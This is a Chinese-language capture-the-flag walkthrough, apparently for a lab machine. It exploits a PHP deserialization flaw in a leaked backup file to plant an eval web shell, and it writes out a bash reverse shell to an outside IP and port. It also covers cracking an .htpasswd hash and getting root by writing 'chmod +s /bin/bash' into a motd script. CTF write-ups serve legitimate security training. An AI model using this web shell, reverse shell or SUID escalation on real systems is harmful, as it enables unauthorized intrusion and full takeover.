

fscan 扫一下，发现开放了 22 端口和 80 端口。




浏览器访问 80 端口，发现什么都没有。

dirsearch 扫一下，发现以下内容。


访问 backup，发现泄露了源码。


把 index.php.bak 下载下来，审计一下，发现存在反序列化漏洞。

```php
<?php

class FormSubmit {

public $form_file = 'message.txt';
public $message = '';

public function SaveMessage() {

$NameArea = $_GET['name']; 
$EmailArea = $_GET['email'];
$TextArea = $_GET['comments'];

	$this-> message = "Message From : " . $NameArea . " || From Email : " . $EmailArea . " || Comment : " . $TextArea . "\n";

}

public function __destruct() {

file_put_contents(__DIR__ . '/' . $this->form_file,$this->message,FILE_APPEND);
echo 'Your submission has been successfully saved!';

}

}

// Leaving this for now... only for debug purposes... do not touch!

$debug = $_GET['debug'] ?? '';
$messageDebug = unserialize($debug);

$application = new FormSubmit;
$application -> SaveMessage();


?>


```

__destruct() 中可以将代码写入文件，可以写一句话木马到 shell.php 中，然后访问即可。

```php
<?php

class FormSubmit {

    public $form_file = 'shell.php';
    public $message = "<?= @eval(\$_POST[a]);?>";

    public function SaveMessage() {

        $NameArea = $_GET['name'];
        $EmailArea = $_GET['email'];
        $TextArea = $_GET['comments'];

        $this-> message = "Message From : " . $NameArea . " || From Email : " . $EmailArea . " || Comment : " . $TextArea . "\n";

    }

    public function __destruct() {

        file_put_contents(__DIR__ . '/' . $this->form_file,$this->message,FILE_APPEND);
        echo 'Your submission has been successfully saved!';

    }

}
$p = new FormSubmit();
echo serialize($p);

?>


```


直接反弹 shell。

```http
a=system(bash -c 'system("bash -c '/bin/bash -i >& /dev/tcp/10.11.112.40/8888 0>&1'");');

```


转为稳定 shell。

```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
^Z #(Ctrl+Z)
stty raw -echo && fg
export TERM=xterm
```


第一个 flag 应该在用户 james 里面，我们需要想办法变为 james 的身份。

可以在 /var/www/html 目录下发现隐藏的密码文件，即 .htpasswd。


直接使用 john 爆破。


拿到 james 的密码后切换为 james 用户，得到 flag1。

继续观察，还有一个 Note-To-James.txt 文件，打开看一下。


意思就是我们有修改 ssh 登录时的欢迎消息的权限，我们可以借助它来提权。

路径是 `/etc/update-motd.d/00-header`。

可以直接在里面添加 `chmod +s /bin/bash`，给 /bin/bash SUID，这样我们就有权限去查看 root 文件夹下的内容了。


修改完成后重新 ssh 登录用户 james，提权成功。


flag2 在 root 目录的 root.txt 中。


